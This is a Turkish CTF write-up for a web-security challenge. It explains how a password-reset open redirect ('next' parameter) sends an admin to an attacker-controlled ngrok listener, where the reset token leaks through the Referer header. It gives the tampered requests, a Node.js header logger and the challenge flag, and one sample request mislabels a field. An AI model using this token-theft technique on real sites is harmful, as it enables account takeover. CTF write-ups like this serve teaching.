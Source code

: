 # İsviçre Çakısı

|    |  |
| ------------- |:-------------:|
| Zorluk        | Orta(320 Puan)|
| Aşama         | Final         |
| Soru Türü     | Web Güvenliği |
| Çözümler      |               |


## Soru Açıklaması
```
Sizi, bu İsviçre çakısı misali platforma yönlendiriyoruz.
```

### Sorunun alakalı olduğu alanlar
- Web Güvenliği

## İpuçları
```
Bu ipucu, sizden aldığı bir şeyle sizi çözüme yönlendirecek.
```

## Bayrak
```
BayrakBende{b4ll3r1n4_c4ppuc1n0}
```


# WriteUp

## Sorunun Anlaşılması ve Giriş

Soru ile ilgili bilgilerimiz:

- Bu web güvenliği sorusunda, bize urbatek kurumunun personeli tarafından kullanılan çok amaçlı bir platforma erişim verilmektedir.
- Duyuru olarak da gönderildiği üzere, kurumun yöneticileri kendilerine mail yoluyla gelecek herhangi bir bağlantıya düşünmeden tıklayacak kadar bilinçsizlerdir. 

## Web Sitesinin Araştırılması

Soru sitesine girdiğimizde, bizi birbirinden farklı iki platforma yönlendirmeyi sağlayan 2 platform karşılamaktadır.

- UrbaTasks: Urbatek firmasındaki personelin yapacağı görevlerin anlık olarak takibini yaptıkları platformdur.
- UrbaMail: Urbatek firmasındaki personelin şirket e-posta adreslerini kullanmalarına yarayan web arayüzüdür.

Urba Mail platformunu ziyaret ettiğimzde, urbatek.tr alan adı altında olan bir e-posta adresinin bize tahsis edilmiş olduğunu görürüz. Verilen e-post adresini kopyalayıp UrbaTasks platformun kaydolmamız gerekmektedir. Kaydımızı gerçekleştirdiğimizde beklediğimiz gibi görevleri yönetmemize yarayan bir platform karşımıza çıkmaktadır. Kayıt işleminin hemen sonrasında e-posta kutumuza baktığımızda ise bize kaydımızı tamamladığımıza dair bir e-posta gelmektedir.


Platformun diğer bir özelliği olan şifre sıfırlama özelliğini kullanabiliriz. Bunu yapıtğımızda e-posta adresimize bir şifre sıfırlama bağlantısı gönderilmektedir.

## Trafiğin İncelenmesi ve Zafiyet Tespiti Yapılması

Platformda gezinirken trafiği incelediğimzde, dikkatimizi çeken kısım şifre sıfırlama bölümü olmalıdır. Şifre sıfırlama kısmında kullanıcı adımızı girerek 'Şifre Sıfırlama Talebi Gönder' bölümüne bastığımızda, aşağıdaki post isteğinin sunucuya gittiğini görmekteyiz:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://soru.bayraksende.com:2999/login
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```


Yukarıdaki istekte kullanıcı adımızı içeren 'username', ve yönlendirileceğimiz bağlantıyı içeren 'next' olmak üzere 2 tane parametre bulunmaktadır. 



Ve gelen bağlantıdan şifre sıfırlama talebini başarıyla oluşturduğumuzda, 3 saniye sonra tam da istek gövdesindeki 'next' alanındaki bağlantıya yönlendirildiğimizi fark etmemiz gerekmektedir.



Yani kendimize gönderdiğimiz şifre sıfırlama isteğindeki 'next' alanını değiştirerek kendi e-postamıza gelen sıfırlama bağlantısını modifiye edebiliriz.


Örneğin, isteğimizi aşağıdaki gibi düzenlersek:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://xxxx.listener/
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```

Verilen adrese yönlendirilecek bir bağlantı gönderilmiş olacak.


Soru metni ve duyurulardaki bilgileri hatırlarsak, platform yöneticilerinin kendi e-posta kutularına gelen herhangi bir bağlantıya tıklayacak kadar bilinçsiz oldukları belirtilmişti.
Peki, bu düzenlenen payload'da kullanıcı adını yöneticilerin kullanıcı adıyla değiştirir ve url kısmını kendi sunucumuza yönlendirecek şekilde değiştirirsek ne olur?


Şifre sıfırlama bağlantılarının formatını inceleyelim:

`http://soru.bayraksende.com:2999/reset-password?token=fc8eba6f-dfb3-4776-9a4c-503417303a78&next=http://soru.bayraksende.com:2999/login`


Bağlantı, post istek gövdemizde verdiğimiz 'next' alanını ve sunucu tarafında oluşturulması muhtemel olan bir şifre sıfırlama tokenını içeriyor.
Bu da şu anlama geliyor: Yöneticiyi kendi web sitemize yönlendirip, onun isteğinden gelen 'referer' başlığını alırsak buradan önce bulunduğu tam url'yi görürüz, ki bu da şifre sıfırlama tokenını içerdiği için admin kullanıcısı için şifre sıfırlama talebi açabilmemiz anlamına gelmektedir.


# Listener Sunucu Kurulumu ve Zafiyetin Sömürülmesi 

Öncelikle, admin kullanıcısının 'referer' başlığını almamız ve depolamamız için bir sunucuya ihtiyacımız olacak. Bunun için istersek dışarıya açık bir sunucumuz ya da hosting'imiz varsa onu, yoksa da kendi cihazımızı ngrok veya serveo gibi reverse proxyler aracılığıyla dışarı çıkararak kendi cihazımızı kullanabiliriz. Pipedream veya webhook gibi sistemlerle de yapmak mümkün, ben çözümde herkes için uygun olması sebebiyle kendi cihaızımı ngrok ile dışarı çıkararak kullanacağım.


Bunun için en kolay yol, kullanmayı en sevdiğimiz yazılım kütüphanesi ve diliyle bir web sunucusu yazmak, ve gelen isteklerdeki referer http başlığının değerini konsola yazdırmak. Ben rahat olduğum ve severek yazdığım için Node.js kullanacağım, siz ne isterseniz onu kullanabilirsiniz.

```js
const http = require('http');

const server = http.createServer((req, res) => {
    const now = new Date();
    const ip = req.socket.remoteAddress;
    const referer = req.headers.referer || 'none';
    console.log(`${now.toISOString()} - IP: ${ip}, Referer: ${referer}`);
    res.end();
});

server.listen(3000);
```

Kodu çalıştırdığımda, sunucum cihazın 3000 portunda hazır bekliyor olacak. Bu portu ngrok reverse proxy kullanarak dışarı çıkaracağım, ki tüm kullanıcılar dolayısıyla da adminimiz erişebilsin.

```sh
ngrok http 3000
```

Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örneğin:


`https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`

Şimdi, bu url'yi isteğimizin içine koyalım, ve kullanıcı adı kısmını admin ile değiştirelim:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="admin"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```

İsteğimizi gönderip sunucu konsolumuza baktığımzda, aşağıdakine benzer bir çıktı gelecektir:


`2025-05-30T12:34:56.789Z - IP: ::ffff:127.0.0.1, Referer: http://soru.bayraksende.com:2999/reset-password?token=fa18d596-6557-47c0-b148-bed4cb96de30&mext=...`


Bu url'nin uuid token'a olan kısmını alarak ziyaret ettiğimizde, admin kullanıcısı için şifre sıfırlama erişimi elde etmekteyiz. Şifremizi sıfırlayıp yeni şifremiz ile giriş yapabiliriz.




